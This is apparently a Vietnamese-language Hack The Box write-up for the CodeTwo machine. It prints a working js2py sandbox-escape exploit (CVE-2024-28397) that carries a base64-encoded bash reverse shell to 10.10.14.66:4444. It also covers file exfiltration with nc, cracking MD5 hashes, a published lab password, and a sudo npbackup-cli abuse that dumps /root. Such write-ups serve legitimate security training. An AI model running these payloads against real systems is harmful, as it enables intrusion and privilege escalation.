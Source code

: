 ```yaml
---
title: HTB CodeTwo
published: 2025-09-03
tags: [HTB, Linux, Easy]
category: Writeups
author: Trohan0x00
description: Writeup about CodePartTwo Machine
draft: false
image: "/assets/post_image/code2.png"
---
```


# HTB Labs: CodeTwo

## I. User_Flag
Bước ban đầu scan với nmap trước ta được 2 services
![image](https://hackmd.io/_uploads/B10CR8Lqlg.png)
Có vẻ như ssh ta chưa thể khai thác được gì nên giờ ta đến với web server
![image](https://hackmd.io/_uploads/B1SByD85gx.png)
Đây là một plaform giúp người dùng có thể code nhanh `Javascript` với `IDE` online trên máy chủ. Ta có các dir là `/login`, `/register` và `/download`. Ta sẽ thử reg và login một account để xem chức năng.
Sau một lúc tìm hiểu chức năng thì ta có thể tìm thấy lỗ hỏng `SSTI` ở trong `/dashboard` nơi để ta viết code
![image](https://hackmd.io/_uploads/S1lwlvUcxx.png)
Nhưng có vẻ đã bị sandbox, và filter hết tất cả các hàm có thể khai thác nên có lẽ ta cần download source app ở `/download` để có thể tìm thêm thông tin
![image](https://hackmd.io/_uploads/HknVWwU5ll.png)
ta thấy được source dùng thư viện `js2py`. Đây là thư viện giúp ta có thể code được code `Javascript` trong `Python` như đã thấy ở phía web server và đây cũng giải thích lý do vì sao server chạy `Jinja2` lại có thể code `Javascript` 
![image](https://hackmd.io/_uploads/SyU_R2Lclx.png)
Sau một lúc tìm kiếm, ta thấy được một `CVE-2024-28397` của thư viện này và có public poc [ở đây](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)
Cụ thể lỗ hỏng này cho phép attacker có thẻ `escape` khỏi môi trường `javascript` để có thể `RCE` và thực hiện các lệnh injection ta có được `POC` khai thác và mình sẽ sửa lại một chút để tương thích với bài lab hơn
```javascript 
let cmd = "printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjQvNDQ0NCAwPiYxKQ==|base64 -d|bash"; 
let a = Object.getOwnPropertyNames({}).__class__.__base__.__getattribute__;  
let obj = a(a(a,"__class__"), "__base__");  
function findpopen(o) {  
    let result;    for(let i in o.__subclasses__()) {        let item = o.__subclasses__()[i];        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {            return item;        }        if(item.__name__ != "type" && (result = findpopen(item))) {            return result;        }    }}  
let result = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();  
console.log(result);  
result;  
```
Ở `POC` chỉ lệnh `RCE` bình thường nhưng để thuận tiện khai thác mình sẽ thực hiện reverse shell về phía local với payload `(bash -i >& /dev/tcp/10.10.14.66/4444 0>&1)`
![image](https://hackmd.io/_uploads/BkQmTWw5ge.png)
Ta thành công lấy được shell ở local, check dir hiện tại thì đang ở `/home/app/app`, sau một lúc recon thì thấy được một file users.db ở dir `/home/app/app/instance/` có lẽ file này sẽ có thông tin hữu ích để có thể khai thác
Nhưng do shell ở target không có `sqlite3` để đọc dữ liệu nên ta sẽ dùng `nc` để chuyển về local 
![image](https://hackmd.io/_uploads/SyklRWw9xx.png)
Ta thành công get file về và dùng `sqlite3` để check, thấy rằng db có 2 bảng là `code_snippet` và `user`. Check `user` thì thấy các credential của user với `hashed passwd`
![image](https://hackmd.io/_uploads/SkvPkMv9ex.png)
Và ở phần source code ta biết được passwd sẽ được encrypt bằng `MD5` nên ta có thể dùng `John` để crack dễ dàng. Mình sẽ dùng wordlist `rockyou`
![image](https://hackmd.io/_uploads/H1kEGfv5ee.png)
Giờ ta đã có credential hoàn chỉnh `marco:swetangelbabylove` giờ thì có thể login với ssh server và lấy được `user_flag`
![image](https://hackmd.io/_uploads/H13uMMD9le.png)

## II. Root flag

Check với `sudo -l`, ta thấy có một process có thể run với toàn quyền `root` là `/usr/local/bin/npbackup-cli`. 
![image](https://hackmd.io/_uploads/BJ5oGfPcxl.png)
`npbackup-cli (Portable Network Backup Client)` đây là công cụ `CLI` để tạo và quản lý backup, hỗ trợ snapshot, restore, kiểm tra tính toàn vẹn, và housekeeping. Và file config mặc định sẽ là `npbackup.conf` cũng được tìm thấy ngay tại thư mục hiện tại
```
conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri: 
      __NPBACKUP__wd9051w9Y0p4ZYWmIxMqKHP81/phMlzIOYsL01M9Z7IxNzQzOTEwMDcxLjM5NjQ0Mg8PDw8PDw8PDw8PDw8PD6yVSCEXjl8/9rIqYrh8kIRhlKm4UPcem5kIIFPhSpDU+e+E__NPBACKUP__
    repo_group: default_group
    backup_opts:
      paths:
      - /home/app/app/
      source_type: folder_list
      exclude_files_larger_than: 0.0
    repo_opts:
      repo_password: 
        __NPBACKUP__v2zdDN21b0c7TSeUZlwezkPj3n8wlR9Cu1IJSMrSctoxNzQzOTEwMDcxLjM5NjcyNQ8PDw8PDw8PDw8PDw8PD0z8n8DrGuJ3ZVWJwhBl0GHtbaQ8lL3fB0M=__NPBACKUP__
      retention_policy: {}
      prune_max_unused: 0
    prometheus: {}
    env: {}
    is_protected: false
groups:
  default_group:
    backup_opts:
      paths: []
      source_type:
      stdin_from_command:
      stdin_filename:
      tags: []
      compression: auto
      use_fs_snapshot: true
      ignore_cloud_files: true
      one_file_system: false
      priority: low
      exclude_caches: true
      excludes_case_ignore: false
      exclude_files:
      - excludes/generic_excluded_extensions
      - excludes/generic_excludes
      - excludes/windows_excludes
      - excludes/linux_excludes
      exclude_patterns: []
      exclude_files_larger_than:
      additional_parameters:
      additional_backup_only_parameters:
      minimum_backup_size_error: 10 MiB
      pre_exec_commands: []
      pre_exec_per_command_timeout: 3600
      pre_exec_failure_is_fatal: false
      post_exec_commands: []
      post_exec_per_command_timeout: 3600
      post_exec_failure_is_fatal: false
      post_exec_execute_even_on_backup_error: true
      post_backup_housekeeping_percent_chance: 0
      post_backup_housekeeping_interval: 0
    repo_opts:
      repo_password:
      repo_password_command:
      minimum_backup_age: 1440
      upload_speed: 800 Mib
      download_speed: 0 Mib
      backend_connections: 0
      retention_policy:
        last: 3
        hourly: 72
        daily: 30
        weekly: 4
        monthly: 12
        yearly: 3
        tags: []
        keep_within: true
        group_by_host: true
        group_by_tags: true
        group_by_paths: false
        ntp_server:
      prune_max_unused: 0 B
      prune_max_repack_size:
    prometheus:
      backup_job: ${MACHINE_ID}
      group: ${MACHINE_GROUP}
    env:
      env_variables: {}
      encrypted_env_variables: {}
    is_protected: false
identity:
  machine_id: ${HOSTNAME}__blw0
  machine_group:
global_prometheus:
  metrics: false
  instance: ${MACHINE_ID}
  destination:
  http_username:
  http_password:
  additional_labels: {}
  no_cert_verify: false
global_options:
  auto_upgrade: false
  auto_upgrade_percent_chance: 5
  auto_upgrade_interval: 15
  auto_upgrade_server_url:
  auto_upgrade_server_username:
  auto_upgrade_server_password:
  auto_upgrade_host_identity: ${MACHINE_ID}
  auto_upgrade_group: ${MACHINE_GROUP}
```
Hãy tưởng tượng sẽ thế nào nếu phần config thay vì chỉ backup ở dir là `/home/app/app` thì mình sẽ đổi lại thành `/root`? Vì vốn dĩ khi config target đã cho ta toàn quyền sudo với `npbackup-cli` thì ta có thể thực hiện việc backup toàn bộ thư mục root và sau đó `dump` ra dữ liệu mà ta cần
Và nên lưu ý, do file ban đầu ta không hề được cấp quyền `write` nên ta có thể xóa luôn file config ban đầu và tạo lại một file mới. Sau đó lưu lại bằng `sudo npbackup-cli -c npbackup.conf -b -f`

Giờ thì ta hoàn toàn có thể dump dễ dàng file `root.txt` ra `sudo npbackup-cli -c npbackup.conf -f --dump /root/root.txt`

![image](https://hackmd.io/_uploads/Hk_tvMD5ee.png)


